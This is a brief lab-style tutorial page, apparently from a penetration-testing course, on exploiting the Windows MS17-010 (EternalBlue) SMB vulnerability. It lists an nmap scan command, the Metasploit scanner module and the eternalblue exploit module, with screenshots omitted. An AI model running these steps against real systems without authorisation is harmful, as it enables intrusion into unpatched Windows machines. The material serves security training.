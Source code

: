 # Exploiting Windows MS17-010 SMB Vulnerability

## Practical Demo

#### Enumerate the target using the db\_nmap command

* <mark style="color:yellow;">db\_nmap -sS -sV -O targetIP</mark>

<figure><img src="../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

#### Scanning for EternalBlue on the target

* <mark style="color:yellow;">auxiliary/scanner/smb/smb\_ms17\_010</mark>

Set the required options

<figure><img src="../../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>

#### Exploit Module

* <mark style="color:yellow;">exploit/windows/smb/ms17\_010\_eternalblue</mark>

Set required options
